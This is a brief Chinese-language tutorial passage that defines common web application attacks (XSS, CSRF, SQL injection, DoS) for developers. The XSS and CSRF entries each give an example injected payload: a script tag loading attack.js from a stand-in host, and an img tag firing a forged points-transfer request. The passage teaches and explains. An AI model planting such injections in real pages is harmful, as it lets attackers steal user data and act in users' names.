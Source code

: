 ## 常见的应用层攻击手段

- XSS（cross-site scripting），跨站脚本攻击，通过在页面中注入脚本发起攻击。举个例子：我在一个有 XSS 缺陷的在线商城开了一家店铺，编辑商品详情页时提交了这样的描述：`特制辣酱<script src="https://cross-site.scripting/attack.js"></script>`，当用户访问该商品的详情时 `attack.js` 就被执行了，我通过该脚本可以在用户不知情的情况下窃取数据或者发起操作，比如：把用户正在浏览的商品加入到购物车。
- CSRF（cross-site request forgery），跨站请求伪造，通过伪造用户数据请求发起攻击。举个例子：我在一个有 CSRF 缺陷的论坛回复了一则热门帖：`赞！<img src="/api/cross-site?request=forgery" />`，当用户访问到这条回复时 `img` 标签就会在用户不知情的情况下以该用户的身份发起提前设置的请求，比如：转 1 积分到我自己的帐号上。
- SQLi（SQL injection），SQL 注入，通过在数据库操作注入 SQL 片段发起攻击。SQLi 是非常危险的攻击，可以绕过系统中的各种限制直接对数据进行窃取和篡改。但同时， SQLi 又是比较容易防范的，只要对入参字符串做好转义处理就可以规避，常见的 ORM 模块都做好了此类处理。
- DoS（denial-of-service），拒绝服务攻击，通过大量的无效访问让应用陷入瘫痪。在 DoS 基础上又有 DDoS（distributed denial-of-service），分布式拒绝服务攻击，是加强版的 DoS。通常此类攻击在传输层就已经做好了过滤，应用层一般在集群入口也做了过滤，应用节点不需要再关心。